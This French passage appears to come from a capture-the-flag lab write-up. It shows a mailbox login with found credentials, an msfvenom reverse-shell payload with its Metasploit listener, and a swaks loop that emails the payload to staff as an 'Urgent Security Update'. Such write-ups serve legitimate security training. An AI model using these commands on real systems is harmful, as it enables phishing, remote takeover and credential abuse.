 ```
telnet {TARGET_IP} 110
USER lhedvig@brownbrick.co
PASS bricks
```

![Mailbox access via telnet](/images/THM-YouGotMail/telnet_check.png)

## Drapeau utilisateur

Essayons d'envoyer quelques messages électroniques avec une pièce jointe malveillante.

* Nous créons un fichier exe malveillant avec msfvenom à utiliser comme pièce jointe.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=443 -f exe > payload.exe
```

* Nous configurons un listener avec Metasploit.

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT PORT_NUMBER
run
```

Nous pouvons envoyer un courriel à toutes les autres adresses électroniques à l'aide de [swaks](https://github.com/jetmore/swaks).

```shell
for email in oaurelius@brownbrick.co tchikondi@brownbrick.co wrohit@brownbrick.co pcathrine@brownbrick.co fstamatis@brownbrick.co; do
    swaks --to $email --from lhedvig@brownbrick.co \
    --server 10.10.16.179 --port 25 --auth LOGIN \
    --auth-user lhedvig@brownbrick.co --auth-password bricks \
    --header "Subject: Urgent Security Update" \
    --body "Please review the attachment" \
    --attach @payload.exe
done
```

![Emails sent via swaks](/images/THM-YouGotMail/swaks_send_emails.png)

Nous obtenons un shell en tant que `wrohit` et pouvons lire le drapeau utilisateur.

![user flag](/images/THM-YouGotMail/flag_txt.png)

Avec `net localgroup` nous remarquons que cet utilisateur fait partie du groupe `Administrators` en plus de beaucoup d'autres.

![group memberships](/images/THM-YouGotMail/group_memberships.png)

### Récupération du mot de passe wrohit
